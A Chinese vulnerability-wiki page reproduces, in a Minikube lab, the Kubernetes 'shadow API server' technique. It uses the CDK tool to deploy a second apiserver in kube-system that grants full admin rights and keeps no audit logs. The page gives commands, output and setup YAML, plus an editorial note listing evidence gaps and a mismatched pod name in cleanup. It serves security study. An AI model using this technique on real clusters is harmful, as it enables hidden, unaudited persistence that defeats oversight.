




# Kubernetes 部署 Shadow API Server

> 版本字段校订（2026-10-04）：Docker 18.09.3 是原文实验运行时版本，不能作为此配置或权限问题的影响范围。`version` 与 `affected_versions` 改为明确待核，旧值保存在 `previous_*`；实验组件清单及全部 YAML、命令与结果原样保留。后文相关元数据误填说明描述校订前状态。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：能在控制平面节点创建具必要hostPath/网络访问的Pod、取得API/etcd配置证书并绕过或满足准入策略；非仅任意namespace创建Pod即可
- 证据范围：CDK工具部署流程和实验日志完整，但底层影子Pod配置只外链，前提需补齐；非独立CVE漏洞

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version误用Docker实验版本
- 清理Pod名6aktct与创建yg7vf3不一致，可能残留高权限控制平面
- 原API仍可记录部署事件，不能把不保存影子审计等同完全隐蔽
- 完整授权/主机文件与准入条件未讲清，未验证影子端点权限模型

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

该技术来源于 ["RSAC 2020: Advanced Persistence Threats: The Future of Kubernetes Attacks"](https://www.youtube.com/watch?v=CH7S5rE3j8w)，思路是在拥有 Master 节点上的 create pod 权限时，可创建一个具有 API Server 功能的 Pod，使得后续命令可以通过新创建的 shadow api server 进行下发，绕过 K8s 的日志审计，更加具有隐蔽性。

参考链接：

- https://www.rsaconference.com/Library/presentation/USA/2020/advanced-persistence-threats-the-future-of-kubernetes-attacks-3
- https://www.youtube.com/watch?v=CH7S5rE3j8w
- https://www.cdxy.me/?p=839
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver
- https://github.com/cdk-team/CDK/blob/02c2e5d576a51b603e07eb036073eb1c5a0c4c4d/test/k8s_exploit_util/shadow-apiserver.yaml

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_shadow_apiserver.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-shadow-apiserver` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
k8s-shadow-apiserver   1/1     Running   0          40m
```




## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-shadow-apiserver`pod 中：

```
kubectl cp cdk k8s-shadow-apiserver:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kube-system` 命名空间下创建一个 shadow apiserver，可根据提示进行访问）：

```
kubectl exec -n metarget -it k8s-shadow-apiserver -- chmod +x /cdk
kubectl exec -n metarget -it k8s-shadow-apiserver --  /cdk run k8s-shadow-apiserver default
-----
...
2025/04/22 07:18:04 shadow api-server deploy success!
	shadow api-server pod name:kube-apiserver-minikube-shadow-yg7vf3, namespace:kube-system, node name:minikube
	listening port: https://minikube:9444
	run: kubectl --server=https://minikube:9444 --token=eyJhb...UnXw --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```




验证部署结果：

```
kubectl get pods -n kube-system | grep shadow
-----
kube-apiserver-minikube-shadow-yg7vf3   1/1     Running   0              90s
```




通过获取的 K8s Token 访问 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，且不保存审计日志：

```
kubectl --server=https://minikube:9444 --token=<YOUR_TOKEN_HERE> --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```




## 环境复原

```
kubectl delete pod kube-apiserver-minikube-shadow-6aktct -n kube-system
kubectl delete -f k8s_shadow_apiserver.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_shadow_apiserver.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_shadow_apiserver.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-shadow-apiserver
rules:
- apiGroups:
  - ""
  resources:
  - pods
  verbs:
  - create
  - get
  - list
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-shadow-apiserver
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-shadow-apiserver
subjects:
- kind: ServiceAccount
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
spec:
  serviceAccountName: k8s-shadow-apiserver
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
